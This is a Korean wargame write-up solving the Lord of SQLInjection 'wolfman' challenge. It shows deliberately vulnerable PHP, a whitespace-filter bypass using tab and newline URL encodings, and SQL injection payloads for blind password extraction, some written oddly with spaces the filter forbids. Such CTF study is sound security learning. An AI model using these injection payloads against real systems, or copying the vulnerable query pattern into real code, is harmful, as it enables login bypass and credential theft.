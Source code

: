 ###### 이번부터 한글로 적기로 하였습니다..
# **Wolfman**
## 1. 문제의도
공백 없이 쿼리를 작성할 수 있는가?

## 2. 코드
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 

      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))  
          exit("No Hack ~_~"); 

      if(preg_match('/ /i', $_GET[pw]))
          exit("No whitespace ~_~"); 

      $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
      
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'])
          echo "<h2>Hello {$result[id]}</h2>"; 
      
      if($result['id'] == 'admin')
          solve("wolfman"); 

      highlight_file(__FILE__); 
    ?>

### 1. preg_match()
우리는 아래와 같은 내용을 사용할 수 없습니다.  
이전의 내용들과 다른 점은 공백을 사용할 수 없다는 점입니다.

    prob | _ | . | () | 공백

### 2. query

    select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'

pw 파라미터를 통해서만 이 쿼리를 조작할 수 있을 것 같다.

### 3. if($result['id'] == 'admin') solve("wolfman");

만약 id가 admin인 행의 값을 가져오는 데 성공한다면 우리는 이 문제를 클리어 할 수 있습니다.

## 3. Solution

이 문제에서는 우리가 MySQL의 부드러운 문법에 대해 알고 있는지에 대한 것 같다

중요한 것은 공백 이외의 구분문자들을 통해서도 쿼리를 구성 할 수 있다는 것이다.

### 1. 이스케이프 문자 사용
우리가 보아왔던 이스케이프 문자들 중에서 MySQL이 구분문자로 인식하는 것들은 다음과 같다.

    %09 | %0a | %0b | %0c | %0d

    %09 = Horizontal Tab (수평 탭. \t)
    
    %0a = Line Feed (Move Caret right down. \n)
    
    %0b = Vertical Tab (수직 탭. \v)
    
    %0c = Form feed (if you use this in printer, it will change paper to next paper. 다음장으로 바꿈. \f)
    
    %0d = Carriage return (Move Caret start of line where this is. 타자기에서 끝까지 다 쳤을때 왼쪽으로 미는거 \r)

### 2. 괄호 사용
그리고 (), 괄호를 사용할 수도 있다.

    
### My Answers :
    
    --- {} part will be replaced to other integer value ---

    ?pw=' or id=admin and pw like '{str}%25

    ?pw=' or id=admin and 1=if(ascii(substr(pw, {offset},1))={ascii_integer_value},1,0) -- -

If we can find string "Hello admin" from html page source,  
the character or string, which we tried is part of string which we wanted.  
  
**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL-Security/blob/master/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**
  
